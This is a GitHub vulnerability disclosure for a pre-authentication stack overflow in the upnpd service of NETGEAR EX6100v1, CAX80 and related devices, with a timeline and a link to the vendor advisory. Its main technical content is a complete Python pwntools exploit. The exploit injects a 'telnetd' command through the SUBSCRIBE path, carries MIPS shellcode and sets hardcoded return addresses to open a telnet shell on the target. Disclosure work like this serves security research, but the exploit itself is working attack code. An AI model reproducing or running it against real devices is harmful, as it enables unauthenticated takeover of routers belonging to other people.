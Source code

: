 # NETGEAR_stack_overflow



#### Impact products 

​	EX6100v1

​	EX6200

​	CAX80

​	DC112A

#### Affect device firmware

Link:

​	https://www.netgear.com/support/product/EX6100.aspx#Firmware%20Version%201.0.2.28

​	https://www.downloads.netgear.com/files/GDC/CAX80/CAX80-V2.1.3.5.zip

​	https://www.downloads.netgear.com/files/GDC/CAX80/CAX80-V2.1.2.6.zip

​	...

#### Describ

​	A stack overflow vulnerability exists in the upnpd service, which may lead to the execution of arbitrary code without authentication

#### Detail (Listing with ex6100v1)

​	In the upnp_main function, the data size of 0x1fff is accepted and stored in v81.

<img src="./img/image-20211007164319530.png" alt="image-20211007164319530" style="zoom:50%;" />

​	Next, in the figure below, the function v81 variable is called as the first parameter

<img src="./img/image-20211007164612323.png" alt="image-20211007164612323" style="zoom:50%;" />

​	When processing subscribe and unsubscribe requests, you will enter the gena_http_method_check function a1 with the previous v81 parameter, and follow up this function 

<img src="./img/image-20211007164656273.png" alt="image-20211007164656273" style="zoom:50%;" />

​	This function copies the input to the stack through strcpy, and the data is larger than the buffer, resulting in stack overflow. Arbitrary code can be executed without authentication

<img src="./img/image-20211007164927729.png" alt="image-20211007164927729" style="zoom:50%;" />



<img src="./img/image-20211007165050190.png" alt="image-20211007165050190" style="zoom:50%;" />

#### Summary(Listing with ex6100v1)

​	Because the general upnpd service is started by default, it is very harmful and can cause the execution of arbitrary code. This exp can open the latest firmware of EX6100（https://www.netgear.com/support/product/EX6100.aspx#Firmware%20Version%201.0.2.28） Telnetd service for devices 

```
from pwn import *
p=remote("192.168.0.110",5000)
request = "SUBSCRIBE /gena.telnetd${IFS}-p${IFS}23;?service=" + "1" + " HTTP/1.0\n"
request += "Host: " + "192.168.1.0:" + "80" + "\n"
request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
request += "NT: upnp:event\n"
request += "Timeout: Second-1800\n"
request += "Accept-Encoding: gzip, deflate\n"
#request = 	request.ljust(0x1000,"a")
print len(request)
request += request+"doud"
stg3_SC =''
stg3_SC += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
stg3_SC += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
stg3_SC += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
stg3_SC += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
stg3_SC += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
stg3_SC += "\xab\x0f\x02\x24\x0c\x09\x09\x01"
#payload+= "d"*0x18
request += request+stg3_SC
request = request.ljust(0x1f00,"a")
request += p32(0x7fff7030)
request = request.ljust(0x1f48-0x14,"a")
request += p32(0x422848)
#request += p32(0x422944)
#request += "a"*0x500
#request += p32(0x7fff7030)*8
p.send(request)
p.interactive()
```

#### Timeline

The manufacturer has issued relevant announcements：

​	https://kb.netgear.com/000064615/Security-Advisory-for-Pre-Authentication-Command-Injection-on-EX6100v1-and-Pre-Authentication-Stack-Overflow-on-Multiple-Products-PSV-2021-0282-PSV-2021-0288?article=000064615

**On October 1, 2021, the loopholes were discovered and the report was written**
**On October 7, 2021, a vulnerability report was submitted,**
**On February 4, 2022, the manufacturer issued an announcement**
**On February 6, 2022, the vulnerability was disclosed on GitHub**

